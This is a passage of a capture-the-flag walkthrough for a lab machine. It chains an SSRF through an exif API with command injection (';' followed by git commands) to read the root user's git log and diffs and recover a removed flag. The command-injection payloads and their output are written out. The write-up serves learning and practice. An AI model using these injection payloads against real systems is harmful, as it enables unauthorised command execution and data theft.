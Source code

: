 <figure><img src=".gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

We get a password and username, tried login with SSH but it was a deadend.

But in the root dir, we can see a `.git and .gitconfig` - dir.

We can use **-C** option for git to give the path for **.git directory** and type **log** to check the logs.

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=; git -C /root log`

```bash
# We get some commits
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

The 3rd commit, where he added the file, lets view it.

`http://10.10.30.114/api/exif?url=http://api-dev-backup:8080/exif?url=; git -C /root diff a3d30a7d0510dc6565ff9316e3fb84434916dee8` .

Or we could also use `git -C /root show <ID>` .
